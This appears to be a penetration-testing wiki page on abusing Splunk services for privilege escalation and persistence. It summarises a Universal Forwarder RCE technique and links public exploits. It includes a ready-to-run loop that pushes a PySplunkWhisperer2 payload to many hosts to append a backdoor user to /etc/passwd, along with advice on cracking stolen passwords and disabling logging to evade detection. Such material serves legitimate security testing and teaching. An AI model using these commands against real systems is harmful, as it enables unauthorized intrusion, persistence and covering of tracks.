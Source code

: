 # Splunk LPE and Persistence


If **enumerating** a machine **internally** or **externally** you find **Splunk running** (port 8090), if you luckily know any **valid credentials** you can **abuse the Splunk service** to **execute a shell** as the user running Splunk. If root is running it, you can escalate privileges to root.

Also if you are **already root and the Splunk service is not listening only on localhost**, you can **steal** the **password** file **from** the Splunk service and **crack** the passwords, or **add new** credentials to it. And maintain persistence on the host.

In the first image below you can see how a Splunkd web page looks like.



## Splunk Universal Forwarder Agent Exploit Summary

For further details check the post [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/). This is just a sumary:

**Exploit Overview:**
An exploit targeting the Splunk Universal Forwarder Agent (UF) allows attackers with the agent password to execute arbitrary code on systems running the agent, potentially compromising an entire network.

**Key Points:**
- The UF agent does not validate incoming connections or the authenticity of code, making it vulnerable to unauthorized code execution.
- Common password acquisition methods include locating them in network directories, file shares, or internal documentation.
- Successful exploitation can lead to SYSTEM or root level access on compromised hosts, data exfiltration, and further network infiltration.

**Exploit Execution:**
1. Attacker obtains the UF agent password.
2. Utilizes the Splunk API to send commands or scripts to the agents.
3. Possible actions include file extraction, user account manipulation, and system compromise.

**Impact:**
- Full network compromise with SYSTEM/root level permissions on each host.
- Potential for disabling logging to evade detection.
- Installation of backdoors or ransomware.

**Example Command for Exploitation:**
```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```

**Usable public exploits:**
* https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
* https://www.exploit-db.com/exploits/46238
* https://www.exploit-db.com/exploits/46487


## Abusing Splunk Queries

**For further details check the post [https://blog.hrncirik.net/cve-2023-46214-analysis](https://blog.hrncirik.net/cve-2023-46214-analysis)**


